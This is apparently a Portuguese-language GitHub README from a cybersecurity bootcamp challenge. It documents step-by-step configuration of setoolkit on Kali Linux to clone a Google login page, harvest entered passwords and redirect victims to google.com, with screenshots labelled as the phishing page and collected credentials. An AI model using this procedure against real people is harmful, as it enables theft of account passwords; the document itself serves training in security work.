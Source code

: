 # Phishing para captura de senhas do Google
- Desafio de Projeto Santander Bootcamp Cibersegurança

### Ferramentas utilizadas

- Kali Linux
- setoolkit (version: 8.0.3)

### Configurando o Phishing no Terminal do Kali Linux

- Acesso root: ``` sudo su ```
- Permitir redirecionar site após coleta:
    - ``` sed -i 's/HARVESTER_REDIRECT=OFF/HARVESTER_REDIRECT=ON/g' /etc/setoolkit/set.config ```
- Alterar site para redirecionar após coleta:
    - ``` sed -i 's#HARVESTER_URL=http://thisisasite#HARVESTER_URL=http://google.com#g' /etc/setoolkit/set.config ```
- Iniciando o setoolkit: ``` setoolkit ```
- Tipo de ataque: ``` Social-Engineering Attacks ```
- Vetor de ataque: ``` Web Site Attack Vectors ```
- Método de ataque: ```Credential Harvester Attack Method ```
- Forma de ataque: ``` Web Templates ```
- Obtendo o endereço da máquina: ``` ifconfig ```
- Selecionar template: ``` Google ```

### Resutados

- Página Phishing Google
  
![Alt text](./page.PNG "pagina phishing google")

- Credenciais Coletadoas

![Alt text](./passwd.png "credenciais coletadas")
